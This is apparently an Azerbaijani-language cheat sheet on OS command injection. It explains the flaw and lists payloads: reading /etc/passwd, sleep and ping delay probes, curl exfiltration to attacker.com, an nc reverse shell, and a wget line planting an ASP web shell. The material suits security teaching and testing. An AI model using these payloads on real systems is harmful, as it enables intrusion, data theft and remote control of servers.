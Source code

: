 # OS Command Injection

## 1. OS Command Injection Nədir?
OS Command Injection, istifadəçinin daxil etdiyi məlumatın əməliyyat sistemi əmr sətrində icra olunmasına imkan verir. Bu hücumdan istifadə edərək hücumçular sistemə ziyan vura, məxfi məlumatları oğurlaya və hətta sistem üzərində tam nəzarət əldə edə bilərlər.

## 2. OS Command Injection Nümunələri

### 2.1. Basic OS Command Injection
Bu metodla istifadəçi girişinə daxil edilən əmr, əsas əmrdən sonra icra olunur.
```sh
ping -c 4 127.0.0.1; cat /etc/passwd
```
Yuxarıdakı əmrdə `ping` icra olunur, sonra isə `/etc/passwd` faylı oxunur.

### 2.2. Blind OS Command Injection
Əgər tətbiq nəticəni birbaşa göstərmirsə, ancaq əmrlərin icra olunduğunu yoxlamaq istəyiriksə:
```sh
127.0.0.1 && sleep 10
```
Əgər server cavab vermək üçün 10 saniyə gözləyirsə, bu, tətbiqin əmrləri icra etdiyini göstərir.

### 2.3. Out-of-band OS Command Injection
Məlumatları birbaşa əldə edə bilmiriksə, serverin çıxış məlumatlarını öz serverimizə göndərməyə cəhd edə bilərik:
```sh
curl http://attacker.com/?data=$(whoami)
```
Bu əmrlə `whoami` nəticəsi hücumçunun serverinə göndərilir.

## 3. OS Command Injection Gecikmə Testləri
Tətbiqin əmrləri icra edib-etmədiyini yoxlamaq üçün aşağıdakı testlərdən istifadə etmək olar:
```sh
|| ping -i 30 127.0.0.1 ; x || ping -n 30 127.0.0.1 &
| ping -i 30 127.0.0.1 |
| ping -n 30 127.0.0.1 |
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
; ping 127.0.0.1 ;
%0a ping -i 30 127.0.0.1 %0a
` ping 127.0.0.1 `
```
Əgər serverin cavabı gecikirsə, deməli, tətbiq OS command injection-a həssasdır.

## 4. OS Command Injection nəticələrinin əldə edilməsi
Əgər əmrlərin icrası təsdiqlənərsə, aşağıdakı üsullarla nəticələri əldə etmək olar:

### 4.1. Birbaşa Nəticələri Görmək
```sh
ls
whoami
```

### 4.2. Çıxış məlumatlarını veb serverə yazmaq
```sh
dir > c:\inetpub\wwwroot\output.txt
```

### 4.3. Out-of-band əlaqə yaratmaq
```sh
nc -e /bin/sh attacker.com 4444
```

### 4.4. Wget vasitəsilə fayl yazmaq
```sh
url=http://wahh-attacker.com/%20-O%20c:\inetpub\wwwroot\scripts\cmdasp.asp
```


